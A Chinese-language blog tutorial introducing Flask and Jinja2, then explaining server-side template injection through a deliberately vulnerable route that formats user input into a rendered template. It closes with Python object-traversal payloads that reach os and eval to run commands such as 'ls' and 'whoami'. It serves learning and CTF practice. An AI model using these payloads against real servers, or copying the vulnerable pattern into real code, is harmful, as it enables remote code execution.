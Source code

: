 ```yaml
---
layout: post
title: 2020-12-07-SSTI模板注入与Flask基础（略带沙箱逃逸）
date: 2020-12-07
categories: blog
tags: [web,php]
description: 学习Flask模板注入了
typora-copy-images-to: ..\img
typora-root-url: ..
---
```


# SSTI模板注入与Flask基础

### Flask简介

Flask是一个Python上的**Web应用程序框架**（Web Application Framework）。

**Web应用程序框架**是一个库和模块的集合，使Web应用程序开发人员能够编写Web应用程序，而不必担心协议，线程管理等低级细节。



Flask基于**Werkzeug WSGI**工具包和**Jinja2**模板引擎。

> ##### Werkzeug
>
> 它是一个WSGI工具包，它实现了请求，响应对象和实用函数。 这使得能够在其上构建web框架。 Flask框架使用Werkzeug作为其基础之一。
>
> ##### jinja2
>
> jinja2是Python的一个流行的模板引擎。Web模板系统将模板与特定数据源组合以呈现动态网页。
>
> Flask通常被称为微框架。 它旨在保持应用程序的核心简单且可扩展。Flask没有用于数据库处理的内置抽象层，也没有形成验证支持。相反，Flask支持扩展以向应用程序添加此类功能。

**Jinjia模板引擎特点**

- {{ ... }}：装载一个变量，模板渲染的时候，会使用传进来的同名参数这个变量代表的值替换掉。
- {% ... %}：装载一个控制语句。
- {# ... #}：装载一个注释，模板渲染的时候会忽视这中间的值。

**控制语句**

Jinjia控制语句都是放在`{% ... %}`中，并且有一个语句`{% endxxx %}`来进行结束。

**Jinja2中for循环内置常量**

| loop.index  | 当前迭代的索引（从1开始）           |
| ----------- | ----------------------------------- |
| loop.index0 | 当前迭代的索引（从0开始）           |
| loop.first  | 是否是第一次迭代，返回True\/False   |
| loop.last   | 是否是最后一次迭代，返回True\/False |
| loop.length | 序列的长度                          |

 **注意：不可以使用`continue`和`break`表达式来控制循环的执行。**

**过滤器**

过滤器是通过（`|`）符号进行使用的，例如：`{{ name|length }}：`将返回name的长度。

过滤器相当于是一个函数，把当前的变量传入到过滤器中，然后过滤器根据自己的功能，再返回相应的值，之后再将结果渲染到页面中。

## SSTi漏洞的产生

ssti漏洞产生于网页模板中的变量被二次渲染时。

什么是二次渲染，这里用两个例子简单展示：

无二次渲染：

```python
from flask import *

app=Flask(__name__)
@app.route('/')
def index():
    str=request.args.get('s')
    html='<h1>Welcome</h1></br><p>{{str}}</p>'
    return render_template_string(html,str=str)
if __name__=='__main__':
    app.run()
```

有二次渲染行为：

```python
from flask import *

app=Flask(__name__)
@app.route('/')
def index():
    str=request.args.get('s')
    html="<h1>Welcome</h1></br><p>%s</p>"%(str)
    return render_template_string(html)
if __name__=="__main__":
    app.run()
```

如果在页面中找到了这样一个ssti漏洞，便意味着我们能够在这个注入点执行该模板引擎的控制语句以及命令

Flask SSTI 题的基本思路就是利用 python 中的 **魔术方法** 找到自己要用的函数。

```
__dict__：保存类实例或对象实例的属性变量键值对字典

__class__：返回调用的参数类型

__mro__：返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。 

__base__: 返回该对象所继承的基类

__bases__：返回该对象所继承的类型列表

__subclasses__：以一个列表的形式返回对象的子类

__init__：类的初始化方法

__globals__：函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价
```

基本步骤：

使用魔术方法进行函数解析，再获取基本类：

```python
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8] //针对jinjia2/flask为[9]适用
```

获取基本类后，继续向下获取基本类 object 的子类：

```python
object.__subclasses__()
```

这里有可能子类中就含有可以利用的函数，如file,eval等，但是一般是没有的

可以用以下模板控制语句找找看

```
{%for c in ''.__class__.__base__.__subclasses__()%}
{% if 'os' in c.__init__.__globals__%}
{{loop.index0 ~'_'~c.__name__~'-'}}
{% else %}
{{ '-' }}
{%endif%}
{% endfor %}
```

找到重载过的__init__类（在获取初始化属性后，带 wrapper 的说明没有重载，寻找不带 warpper 的）：

```python
>>> ''.__class__.__mro__[2].__subclasses__()[99].__init__
<slot wrapper '__init__' of 'object' objects>
>>> ''.__class__.__mro__[2].__subclasses__()[59].__init__
<unbound method WarningMessage.__init__>
```

或者用模板控制语句找到可以利用的模块，或者__builtins__

```
{%for c in ''.__class__.__base__.__subclasses__()%}
{% if '__builtins__' in c.__init__.__globals__%}
{{loop.index0 ~'_'~c.__name__~'-'}}
{% else %}
{{ '-' }}
{%endif%}
{% endfor %}
```



构造payload

```
''.__class__.__base__.__subclasses__()[59]

''.__class__.__base__.__subclasses__()[81].__init__.__globals__['__builtins__']

''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')

''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')

''.__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("whoami").read()')
```

